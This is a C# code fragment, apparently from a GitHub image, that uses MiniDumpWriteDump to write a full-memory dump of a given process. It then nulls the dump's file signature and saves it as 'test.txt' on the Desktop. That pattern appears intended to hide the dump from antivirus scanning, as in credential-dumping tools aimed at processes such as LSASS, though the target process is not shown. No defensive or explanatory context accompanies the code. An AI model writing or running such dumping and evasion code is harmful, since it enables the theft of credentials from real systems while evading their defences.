 ```cs 
    }

	
	[DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Unicode)]
    static extern IntPtr CreateFile(string lpFileName, uint dwDesiredAccess, uint dwShareMode, IntPtr lpSecurityAttributes, uint dwCreationDisposition, uint dwFlagsAndAttributes, IntPtr hTemplateFile);


    [DllImport("dbghelp.dll", SetLastError = true)]
    [return: MarshalAs(UnmanagedType.Bool)]
    static extern bool MiniDumpWriteDump(IntPtr hProcess, uint ProcessId, IntPtr hFile, uint DumpType, IntPtr ExceptionParam, IntPtr UserStreamParam, IntPtr CallbackParam);

    static void pd(IntPtr hProcess, uint pid)
    {
        string desktopPath = Environment.GetFolderPath(Environment.SpecialFolder.Desktop);
        string outputPath = Path.Combine(desktopPath, "test.txt");
        Console.WriteLine("Output Path: " + outputPath);

        string tempPath = Path.GetTempFileName(); 

        IntPtr hTempFile = CreateFile(tempPath, 0x40000000, 0, IntPtr.Zero, 2, 0, IntPtr.Zero);
        if (hTempFile == IntPtr.Zero)
        {
            Console.WriteLine("Failed to create temporary file");
            return;
        }

        if (!MiniDumpWriteDump(hProcess, pid, hTempFile, 0x00000002, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero)) // MiniDumpWithFullMemory
        {
            Console.WriteLine("Failed to write dump");
            CloseHandle(hTempFile);
            return;
        }

        CloseHandle(hTempFile);

        // Overwrite the first 4 bytes of the temporary file with null bytes
        using (FileStream fs = new FileStream(tempPath, FileMode.Open, FileAccess.Write))
        {
            fs.Seek(0, SeekOrigin.Begin);
            fs.WriteByte(0x00);
            fs.WriteByte(0x00);
            fs.WriteByte(0x00);
            fs.WriteByte(0x00);
        }

        // Delete the existing file if exists
        File.Delete(outputPath); 

         // Rename the temporary file to the desired file name
        File.Move(tempPath, outputPath);

        Console.WriteLine("Dump successfully written to: " + outputPath);
    }

}
```
